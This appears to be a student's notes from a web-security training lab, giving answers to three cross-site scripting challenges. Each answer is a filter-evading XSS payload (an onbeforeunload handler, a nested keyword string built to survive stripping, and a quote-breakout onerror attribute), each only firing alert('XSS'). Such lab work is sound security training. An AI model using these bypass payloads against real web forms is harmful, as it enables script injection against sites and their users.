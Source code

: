 # Week 3 


Cross Site Scripting 2: Find a XSS vulnerability in the following form. It would appear that your input is been filtered!
  
                        <IMG SRC="#" onbeforeunload="alert('XSS')"/>

Cross Site Scripting Three: Find a XSS vulnerability in the following form. It would appear that your input is been filtered!
                        
                        <IMG SRC="#" onononononerrorerrorerrorerrorerror="alert('XSS')"/>
                        
                        
Cross Site Scripting Four: Demonstrate a XSS vulnerability in the following form by executing a JavaScript alert command. The developers had heard that escaping is a better way of fixing XSS issues but they were not totally clear on how to implement it.                        
                        
                        
                        http://www.google.com" Onerror=alert('XSS') 
